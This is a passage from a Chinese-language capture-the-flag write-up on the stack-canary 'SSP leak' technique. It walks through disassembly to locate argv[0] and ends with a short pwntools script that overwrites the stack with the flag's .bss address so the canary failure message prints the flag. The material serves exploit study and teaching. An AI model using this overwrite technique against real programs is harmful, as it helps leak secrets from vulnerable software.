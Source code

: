 32位程序，显然对应的是`mov eax, ebx+disp32`的形式。此时把`ebx=0F7EB8000`加上opcode后面的数0x000035f0，结果就是F7EBB5F0.

![Alt](img/canary35.png)

所以，`(off_F7EBB5F0 - 0F7EB8000h)[ebx]`就是取ebx的值，然后加上偏移`(off_F7EBB5F0 - 0F7EB8000h)`，0X0F7EB8000还是ebx的值，所以答案就是这行代码会把地址F7EBB5F0给eax。接下来的代码则是取出地址F7EBB5F0的值给eax，若这个值是空则设置eax为`<unknown>`。然后通过F7EBB5F0查找`argv[0]`的位置

![Alt](img/canary36.png)
![Alt](img/canary37.png)

接下来就可以计算偏移覆盖到这个位置使SSP leak起作用

```python
    from pwn import *

    p = process('./pwn5')

    payload = p32(0x0804A080)*0x45  # .bss:0804A080 flag, get获取输入s在栈上的地址到0xFFC1EA44的偏移为0x45*4
    p.recv()
    p.sendline(payload)
    print p.recv()
```
